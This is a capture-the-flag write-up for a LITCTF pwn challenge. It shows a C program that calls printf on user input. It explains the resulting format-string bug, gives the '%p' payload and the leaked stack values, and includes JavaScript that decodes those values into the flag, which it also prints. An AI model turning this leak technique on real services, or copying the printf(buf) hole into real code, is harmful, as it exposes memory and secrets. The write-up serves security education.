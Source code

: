 # pwn/waifu

## Challenge

Honestly I just needed a name, I am almost out of time :skull:.
<br>
Connect with `nc litctf.live 31791`

[waifu.zip](https://drive.google.com/uc?export=download&id=1SVW7rWSdpu3cPYDyATw5a9pJJMH0umTS)

## Solution

Ooooo, we're given a C file (and an executable):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(){
	setbuf(stdout, 0x0);

	FILE *f = fopen("flag.txt", "r");
	if(f == NULL){
		puts("Something is wrong. Please contact Rythm.");
		exit(1);
	}	

	char *buf = malloc(0x20);
	char *flag = alloca(0x1000);
	fgets(flag, 0x1000, f);

	puts("Do you like waifus?");

	scanf("%20s", buf);
	puts("");

	if(!strcmp(buf, "yes")){
		puts("Good.");
	}else{
		puts("Wtmoo how could you say:");
		printf(buf);
		puts("");
	}

	free(buf);

	return 0;
}
```
Because `scanf` (instead of `gets`) is used with a maximum number of characters read (20), this isn't a buffer overflow exploit like before, but it's still another classic problem.

The only output is the `printf`. Note the usage of `printf` over `puts`; `printf`'s first argument can contain format specifiers, which are filled in by the following arguments. But that means we can input format specifiers, but since there are no following arguments, they'll instead be filled in by the contents of the stack, including the flag.

Note the program will only read in 20 characters. To maximize data extracted, we use the format specifier `%p`, a 64-bit pointer address (instead of, say, `%x`, a 32-bit hex integer; to specify longer as in `%xl` uses up characters):
```py
print("%p"*10)
```
We get
```
0x7f5ea9d9b723(nil)0x7f5ea9cbc0770x190x7c0x667b46544354494c0x747833745f6d30720x755f68732e3772340x61616161616161770x7d61616161616161
```
(An null pointer (address 0) is printed as `(nil)`.) Conveniently, there are `0x`s delimiting each value. As these are little-endian, we reverse the bytes in each to get the character string:
```js
"..."
	.replaceAll("(nil)","0x0")
	.split("0x").slice(1) // get array of "addresses"
	.map(
		s=>s.padStart(16,"0").match(/../g).reverse().map( // reverse bytes (pairs of hex digits)
			c=>String.fromCharCode(parseInt(c,0x10)) // to ASCII
		).join("")
	).join("");
// "#·Ù©^\u007f\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000wÀË©^\u007f\u0000\u0000\u0019\u0000\u0000\u0000\u0000\u0000\u0000\u0000|\u0000\u0000\u0000\u0000\u0000\u0000\u0000LITCTF{fr0m_t3xt4r7.sh_uwaaaaaaaaaaaaaa}"
```
A bunch of junk, and then our flag!

## Flag

`LITCTF{fr0m_t3xt4r7.sh_uwaaaaaaaaaaaaaa}`
